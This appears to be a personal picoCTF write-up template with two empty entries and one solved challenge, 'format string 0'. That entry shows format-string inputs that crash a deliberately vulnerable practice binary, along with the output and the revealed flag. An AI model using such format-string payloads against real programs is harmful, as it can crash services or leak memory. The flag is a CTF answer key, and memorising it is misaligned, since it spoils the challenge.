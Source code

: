 # 1. 

## Description:



## Solution:



## Flag:

```
picoCTF{}
```

## Concepts learnt:

- 

***

# 2. format string 0

## Description:

Description
Can you use your knowledge of format strings to make the customers happy? Download the binary here. Download the source here. Connect with the challenge instance here: `nc mimas.picoctf.net 62443`

## Solution:

For the first one, choose `Gr%114d_Cheese`. Its length will be greatly inflated because of the `%114d`. For the second one, choose `Cla%sic_Che%s%steak`. This will completely break the program and the flag will be printed.

```
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}
```

## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}
```

## Concepts learnt:

- Handle strings carefully ig

***

# 3. 

## Description:



## Solution:



## Flag:

```
picoCTF{}
```

## Concepts learnt:

- 
